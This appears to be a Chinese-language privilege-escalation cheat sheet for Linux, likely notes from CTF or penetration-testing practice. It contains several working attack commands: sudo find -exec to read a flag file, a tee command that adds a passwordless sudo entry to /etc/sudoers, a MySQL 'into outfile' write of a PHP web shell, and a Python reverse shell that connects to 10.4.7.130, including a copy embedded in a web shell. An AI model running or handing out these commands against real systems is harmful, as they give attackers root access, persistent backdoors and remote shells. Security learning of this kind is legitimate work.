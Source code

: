 ```
shit=/usr/bin/sudo find /flag -exec cat /flag \;
shit=/usr/bin/sudo find /usr/bin/sudo -exec cat /flag \;
shit=/usr/bin/sudo find /usr/bin/find -exec cat /flag \;

# find  (一个路径或文件，必须存在)  -exec  执行命令 \;（\; 是-exec 参数的结尾标志）

```

# 提权

1，低权限可以修改可执行文件和脚本，能以高权限身份运行。

2，用低权限用户的运维人员也需要记忆输入备份凭据，以备使用高权限用户时完成操作。

3，超越权限体系，在其上层（如内存）修改/捕获凭据等信息。

## Linux

#### rbash逃逸

https://blog.csdn.net/qq_43168364/article/details/111830233

#### git提权

https://www.freebuf.com/articles/web/272617.html

tee提权

```
echo 'charles ALL=(ALL:ALL) NOPASSWD:ALL' | sudo teehee -a /etc/sudoers
这句话的意思是将charles用户赋予执行sudo的权限添加到/etc/sudoers里。
| 是管道符 将前面的输出添加到后面
sudo teehee -a 是用管理员权限使用teehee -a命令
teehee -a 是添加一条语句到 /etc/sudoers里
/etc/sudoers 里存着的用户都有执行sudo的权限。

```

#### mysql提权

```
MySQL [(none)]> select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell1.php";
其实可以直接写提权语句。
即
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.7.130",12138));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 
把这段话执行。

<?php echo shell_exec(python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.7.130",12138));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);');?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell1.php";
```

